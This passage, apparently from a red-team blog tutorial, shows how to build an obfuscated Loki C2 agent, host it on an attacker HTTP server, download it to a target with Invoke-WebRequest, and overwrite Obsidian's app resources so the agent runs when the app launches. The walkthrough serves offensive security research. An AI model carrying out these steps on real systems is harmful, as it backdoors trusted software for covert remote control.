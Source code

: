 - Run the script `obfuscateAgent.js` to create a Loki payload with the Storage account info, that we saved earlier.

Make sure to save the Storage Account, SAS token and MetaContainer as 
these will be used for our Loki client to connect to Azure.

![Loki-Agent-Create](/images/blog/ep2-agent-create.png)

Now that we have an agent ready, let's upload it to our target and let's see what happens.-
```
Compress-Archive -Path .\app\* -DestinationPath .\app.zip
```

## Delivering the Agent 
The script we used earlier creates an `/app/` directory. We want to replace the target app's `resources/*` data with this app folder. 

For the purpose of my testing I used a tool called `updog` which allows me to host a file server and transfer files via HTTP/S. 
```
pip3 install updog && updog
```
This will launch the server in the Loki directory of our attacker machine.

![Updog](/images/blog/ep2-updog.png)

Let's head over to our target and download the Agent. 
```
cd Downloads\
mkdir Obsidian_Update-latest\
Invoke-WebRequest http://10.0.0.39:9090/app.zip -OutFile app.zip
```

![Updog](/images/blog/ep2-agent-download.png)

Now that we have our zip on the target machine, we can replace the files for Obsidian with our agent.
```
Expand-Archive -Path .\app.zip -DestinationPath 'C:\Users\Barry Allen\AppData\Local\Programs\Obsidian\resources\app\'
```

![Agent Delivered](/images/blog/ep2-agent-delivered.png)


## The Execution
Now comes the best part, launching Obsidian.exe just like a regular user would.

Before we do that though, let's setup the Loki Client on our attacker machine.
We'll need to use the values we saved earlier when we were configuring the agent. ([[#Preparing Loki Agent]])

![Preparing Client](/images/blog/ep2-client-setup.png)
